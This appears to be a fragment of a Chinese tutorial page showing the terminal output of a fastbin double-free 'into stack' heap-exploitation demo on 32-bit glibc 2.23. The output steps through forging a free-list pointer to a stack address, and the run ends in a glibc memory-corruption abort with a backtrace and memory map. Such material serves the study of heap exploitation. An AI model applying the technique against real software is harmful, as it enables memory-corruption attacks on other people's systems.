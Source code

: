 运行的效果

```
syc@ubuntu:~/Downloads/tmp$ ./a.out
This file extends on fastbin_dup.c by tricking malloc into
returning a pointer to a controlled location (in this case, the stack).
The address we want malloc() to return is 0xff84ae18.
Allocating 3 buffers.
1st malloc(8): 0x8409008
2nd malloc(8): 0x8409018
3rd malloc(8): 0x8409028
Freeing the first one...
If we free 0x8409008 again, things will crash because 0x8409008 is at the top of the free list.
So, instead, we'll free 0x8409018.
Now, we can free 0x8409008 again, since it's not the head of the free list.
Now the free list has [ 0x8409008, 0x8409018, 0x8409008 ]. We'll now carry out our attack by modifying data at 0x8409008.
1st malloc(8): 0x8409008
2nd malloc(8): 0x8409018
Now the free list has [ 0x8409008 ].
Now, we have access to 0x8409008 while it remains at the head of the free list.
so now we are writing a fake free size (in this case, 0x20) to the stack,
so that malloc will think there is a free chunk there and agree to
return a pointer to it.
Now, we overwrite the first 8 bytes of the data at 0x8409008 to point right before the 0x20.
3rd malloc(8): 0x8409008, putting the stack address on the free list
*** Error in `./a.out': malloc(): memory corruption (fast): 0xff84ae14 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67377)[0xf7e11377]
/lib/i386-linux-gnu/libc.so.6(+0x6d2f7)[0xf7e172f7]
/lib/i386-linux-gnu/libc.so.6(+0x6f7cc)[0xf7e197cc]
/lib/i386-linux-gnu/libc.so.6(__libc_malloc+0xc5)[0xf7e1afc5]
./a.out[0x8048796]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf7)[0xf7dc2637]
./a.out[0x8048441]
======= Memory map: ========
08048000-08049000 r-xp 00000000 08:01 955142                             /home/syc/Downloads/tmp/a.out
08049000-0804a000 r--p 00000000 08:01 955142                             /home/syc/Downloads/tmp/a.out
0804a000-0804b000 rw-p 00001000 08:01 955142                             /home/syc/Downloads/tmp/a.out
08409000-0842a000 rw-p 00000000 00:00 0                                  [heap]
f7c00000-f7c21000 rw-p 00000000 00:00 0 
f7c21000-f7d00000 ---p 00000000 00:00 0 
f7d6f000-f7d8b000 r-xp 00000000 08:01 1835262                            /lib/i386-linux-gnu/libgcc_s.so.1
f7d8b000-f7d8c000 rw-p 0001b000 08:01 1835262                            /lib/i386-linux-gnu/libgcc_s.so.1
f7da9000-f7daa000 rw-p 00000000 00:00 0 
f7daa000-f7f5a000 r-xp 00000000 08:01 1835281                            /lib/i386-linux-gnu/libc-2.23.so
f7f5a000-f7f5c000 r--p 001af000 08:01 1835281                            /lib/i386-linux-gnu/libc-2.23.so
f7f5c000-f7f5d000 rw-p 001b1000 08:01 1835281                            /lib/i386-linux-gnu/libc-2.23.so
f7f5d000-f7f60000 rw-p 00000000 00:00 0 
f7f7c000-f7f7e000 rw-p 00000000 00:00 0 
f7f7e000-f7f81000 r--p 00000000 00:00 0                                  [vvar]
f7f81000-f7f83000 r-xp 00000000 00:00 0                                  [vdso]
f7f83000-f7fa6000 r-xp 00000000 08:01 1835267                            /lib/i386-linux-gnu/ld-2.23.so
f7fa6000-f7fa7000 r--p 00022000 08:01 1835267                            /lib/i386-linux-gnu/ld-2.23.so
```